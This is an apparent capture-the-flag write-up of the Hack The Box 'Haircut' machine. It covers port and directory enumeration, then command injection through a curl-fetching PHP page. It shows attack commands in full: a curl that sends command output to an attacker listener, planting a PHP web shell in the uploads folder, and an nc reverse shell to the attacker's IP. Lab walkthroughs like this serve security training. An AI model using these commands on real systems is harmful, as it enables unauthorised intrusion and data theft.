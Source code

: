 # htb-haircut
This is my [Hack the box](https://www.hackthebox.eu/)'s Haircut machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.24

Difficulty: Medium

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.24`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/haircut# nmap -sC -sV -oN haircut.nmap 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 13:39 EDT
Nmap scan report for 10.10.10.24
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

The web app running on port 80 is just an image.

Initial directories enumeration with the common list:

```
root@kali:~/htb/haircut# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u ${HAIRCUT}
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:55:47 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
===============================================================
2020/05/24 13:56:26 Finished
===============================================================
```

Found `/uploads` that is referenced by the image that appears on the page already.

After checking several lists and ways of enumerating directories, finally this one got `/exposed.php`:

```
root@kali:~/htb/haircut# gobuster dir --url 10.10.10.24 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/24 15:23:49 Starting gobuster
===============================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```
The page `/exposed.php` has a text input, and when passing a URL it displays on screen the result of curling it. I tried to inject some command but some symbols/keywords were blocked e.g. &, | (pipe), python and nc. Curl flags are not blocked, though.

Checking `curl` man's page for ways to get more information about the system, I thought of sending information through body data of a curl request sent to a `nc` listener.

Set up listener from attacker: 
```
nc -lvp 4444
```

Commands now can be executed like this, and the result of the executed command will be passed as data to the listener:
```
curl $ATTACKERIP:4444 -d "`command goes here`"
```

So, if command is `whoami`, the ouput is `www-data`.

It is possible to get the user flag already from here:
```
cat /home/maria/Desktop/user
```

It may be a good idea to try to get a more steady shell. See what files/folders are present:
```
ls -alh
```

In the listener:
```
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

It seems `uploads` may be a good place where to place a web shell. I'm going to use a shell called `Predator.php` I got from this repo https://github.com/JohnTroony/php-webshells.git. The first step is to make the shell "curleable" by exposing it through an http server:
```
cd php-webshells
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And now from the input in /exposed.php we curl it to uploads:
```
10.10.14.23:8000/Predator.php -o uploads/Predator.php
```

The shell is accessible from `uploads/Predator.php`, so let's set up a reverse shell using it.

Set `nc` listener in the attacker to handle the reverse shell:
```
nc -lvp 4444
```

The webshell allows the user to execute in a shell. Connect to the attacker as follows:
```
nc $IP_ATTACKER 4444 -e /bin/bash
```

Upgrade shell to more interactive one:
```
python3 -c "import pty; pty.spawn('/bin/bash');"
www-data@haircut:/tmp$
```
